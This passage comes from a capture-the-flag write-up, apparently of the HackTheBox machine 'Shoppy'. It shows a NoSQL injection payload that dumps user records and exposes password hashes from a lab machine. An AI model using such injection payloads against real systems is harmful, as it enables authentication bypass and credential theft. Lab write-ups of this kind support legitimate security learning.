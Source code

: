
It gives us a button to download a file. It opens an endpoint with a hashed password.

```bash
[
	{ "_id":"62db0e93d6d6a999a66ee67a",
		"username":"admin",
		"password":"23c6877d9e2b564ef8b32c3a23de27b2"
	}
]
```

No hit with rockyou.txt on cracking it.

---

We previously checked that the machine is vulnerable to NoSQL injection, so we try that same thing again, with the following payload:

```bash
admin' || '1'=='1
	# Note that there is no "'" at the end, otherwise it gives an error
```

And we get a hit with another password hash

```bash
[
  {
    "_id": "62db0e93d6d6a999a66ee67a",
    "username": "admin",
    "password": "23c6877d9e2b564ef8b32c3a23de27b2"
  },
  {
    "_id": "62db0e93d6d6a999a66ee67b",
    "username": "josh",
    "password": "6ebcea65320589ca4f2f1ce039975995"
  }
]
```

![Crackstation](/img/htb_img/Shoppy_img/04.png)
